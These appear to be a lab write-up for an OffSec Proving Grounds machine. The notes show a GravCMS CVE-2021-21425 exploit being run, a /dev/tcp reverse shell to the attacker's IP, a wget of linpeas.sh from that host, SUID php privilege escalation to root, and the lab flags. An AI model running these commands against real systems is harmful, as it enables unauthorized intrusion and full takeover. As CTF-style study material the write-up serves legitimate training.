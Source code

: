 No credentials were provided for this machine

nmap -vvv -T5 -Pn 192.168.164.12 -p- -A -oN nmap.txt

sudo echo "192.168.164.12 astronaut.offsec" | sudo tee -a /etc/hosts

http://astronaut.offsec/

http://astronaut.offsec/grav-admin/

https://nvd.nist.gov/vuln/detail/CVE-2021-21425

https://pentest.blog/unexpected-journey-7-gravcms-unauthenticated-arbitrary-yaml-write-update-leads-to-code-execution/

http://astronaut.offsec/grav-admin/admin

https://github.com/bluetoothStrawberry/cve-2021-21425

python3 cve-2021-21425.py --url http://astronaut.offsec/grav-admin

Waiting 1 seconds for http://astronaut.offsec/grav-admin/tmp/758c582ba87de6a9.php creation!
Initiating hacking session
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 

OR

https://github.com/CsEnox/CVE-2021-21425

┌──(lepotekil㉿kali)-[~/proving-ground-prac/astronaut]
└─$ python3 cve-2021-21425.py -c 'sh -i >& /dev/tcp/192.168.45.170/22 0>&1' -t http://astronaut.offsec/grav-admin      
/home/lepotekil/proving-ground-prac/astronaut/cve-2021-21425.py:25: DeprecationWarning: Call to deprecated method findAll. (Replaced by find_all) -- Deprecated since version 4.0.0.
  a = str(soup.findAll('input')[3])
[*] Creating File
Scheduled task created for file creation, wait one minute
[*] Running file
Scheduled task created for command, wait one minute
Exploit completed

┌──(lepotekil㉿kali)-[~/proving-ground-prac/astronaut]
└─$ nc -lvnp 22  
listening on [any] 22 ...
connect to [192.168.45.170] from (UNKNOWN) [192.168.164.12] 42422
sh: 0: can't access tty; job control turned off
$ 

whic python2
wich python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm && stty rows 38 columns 116

www-data@gravity:~/html/grav-admin$ ls
ls
assets  cache               composer.json    images       logs       robots.txt   tmp     webserver-configs
backup  CHANGELOG.md        composer.lock    index.php    now.json   SECURITY.md  user
bin     CODE_OF_CONDUCT.md  CONTRIBUTING.md  LICENSE.txt  README.md  system       vendor
www-data@gravity:~/html/grav-admin$ 

www-data@gravity:/tmp$ which wget
which wget
/usr/bin/wget
www-data@gravity:/tmp$ wget http://192.168.45.170:8000/linpeas.sh
wget http://192.168.45.170:8000/linpeas.sh
--2025-10-20 13:37:13--  http://192.168.45.170:8000/linpeas.sh
Connecting to 192.168.45.170:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 971820 (949K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                   100%[==============================================>] 949.04K  4.21MB/s    in 0.2s    

2025-10-20 13:37:14 (4.21 MB/s) - ‘linpeas.sh’ saved [971820/971820]

www-data@gravity:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh

https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid

www-data@gravity:/tmp$ ./linpeas.sh -o interesting_perms_files
./linpeas.sh -o interesting_perms_files

-rwsr-xr-x 1 root root 4.6M Feb 23  2023 /usr/bin/php7.4 (Unknown SUID binary!)

www-data@gravity:/tmp$ /usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
whoami
root
# ls /root
ls /root
flag1.txt  proof.txt  snap
# cat /root/proof.txt
cat /root/proof.txt
de0867d41e78c906236250b29e7e768c
# cat /root/flag1.txt
cat /root/flag1.txt
T2Zmc2Vj
#
